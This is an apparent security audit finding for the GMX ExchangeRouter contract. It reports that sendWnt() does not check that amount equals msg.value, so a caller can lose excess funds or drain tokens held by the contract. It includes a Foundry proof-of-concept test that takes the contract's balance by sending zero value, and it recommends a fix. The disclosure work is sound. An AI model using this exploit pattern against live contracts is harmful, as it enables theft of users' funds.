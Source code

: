 chaduke

high

# ExchangeRouter#sendWnt() fails to check amount == msg.value, as a result, a user might lose funds to the contract and another user might steal funds from the contract.

## Summary
``ExchangeRouter#sendWnt()`` fails to check ``amount == msg.value``, as a result, a user might lose funds to the contract and another user might steal funds from the contract. 

## Vulnerability Detail
``ExchangeRouter#sendWnt()`` allows a user to send native tokens as wrapped native tokens to another user. 

[https://github.com/sherlock-audit/2023-04-gmx/blob/main/gmx-synthetics/contracts/router/ExchangeRouter.sol#L90C48-L93](https://github.com/sherlock-audit/2023-04-gmx/blob/main/gmx-synthetics/contracts/router/ExchangeRouter.sol#L90C48-L93)

However, the function fails to check that ``amount == msg.value``.  If ``msg.value > amoun``, then the sender will lose ``msg.value - amount`` in the contract. On the other hand, if ``amount > msg.value`` and if the contract has sufficient funds for covering ``amount``, then the sender can steal ``amount - msg.value`` from the contract. Actually the sender can steal all remaining native tokens in the contract using the later case. 

The following POC code confirms my finding:

1) The test contract sends 3000 native tokens but specifies 2000 for ``amount``, as a result, address(3) loses 1000 to the contract. The  recipient address(3) only receives 2000 WNT.

2) address(4) sends 1000 to himself while actually sending zero amount of native tokens. He just specifies the amount as 1000, since the contract contains 1000 native tokens, address(4) successfully steals the 1000 native tokens as WNT and sends them to himself.

```javascript
function testSendWNT() public {
    
        /* I send 3000 NT but specify amount as 2000 */
        bytes memory cdata = abi.encodeWithSelector(ExchangeRouter.sendWnt.selector, address(3), 2000);
        (bool success, ) = address(_erouter).call{value: 3000}(cdata);
        require(success);  
        /* address(3) only receives 2000, 1000 NT is stuck in contract  */
        console2.log(_wnt.balanceOf(address(3)));

        
        cdata = abi.encodeWithSelector(ExchangeRouter.sendWnt.selector, address(4), 1000);
        vm.prank(address(4));
        (success, ) = address(_erouter).call{value: 0}(cdata);
        require(success);

        /* address(4) steals the 1000 from the contract. */
        console2.log(_wnt.balanceOf(address(4)));        
}
```

## Impact
ExchangeRouter#sendWnt() fails to check ``amount == msg.value``, as a result, a user might lose funds to the contract and another user might steal funds from the contract. 

## Code Snippet

## Tool used
Foundry

Manual Review

## Recommendation
Check ``amount == msg.value``.
